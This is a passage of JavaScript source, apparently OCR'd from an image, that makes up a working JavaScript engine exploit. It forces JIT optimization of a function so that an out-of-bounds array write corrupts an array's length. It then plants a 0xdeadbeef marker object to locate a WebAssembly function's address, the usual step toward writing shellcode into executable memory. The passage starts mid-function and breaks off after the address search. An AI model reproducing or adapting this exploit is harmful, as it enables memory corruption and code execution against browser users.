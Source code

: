 ```javascript
	Uint32.set(tmp);
	return float64[0];
}

function hex(i)
{
	return i.toString(16).padStart(16, "0");
}


function gc() {
    for (let i = 0; i < 100; i++) {
        new ArrayBuffer(0x100000);
    }
}

var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var wasm_function = wasmInstance.exports.main;

var oob_array;
var obj = [];
var data_buf;

function fun(arg) {
	let x = arguments.length;
  	a1 = new Array(0x10);
  	a1[0] = 1.1;
  	oob_array = new Array(0x10);
  	oob_array[0] = 1.1;
  	a1[(x >> 16) * 41] = 1.39064994160909e-309;  // 0xffff00000000
}

var a1, a2;
var a3 = new Array();
a3.length = 0x11000;

for(let i = 0; i < 0x10000; i++){
	fun(1);
}

res = fun(...a3);

obj = {mark: i2f(0xdeadbeef), obj: wasm_function};
data_buf = new ArrayBuffer(0x233);
console.log("[+] oob_array.length: 0x" + hex(oob_array.length));

//---------find wasm_function
//%DebugPrint(wasm_function);
var wasm_obj_idx = 0;
for(let i=0; i < 0x400; i++)
{
	if(f2i(oob_array[i]) == 0xdeadbeef){
		wasm_obj_idx = i + 1;
		console.log("[+] find wasm_function obj : 0x" + hex(f2i(oob_array[wasm_obj_idx])));
		break;
	}
}
```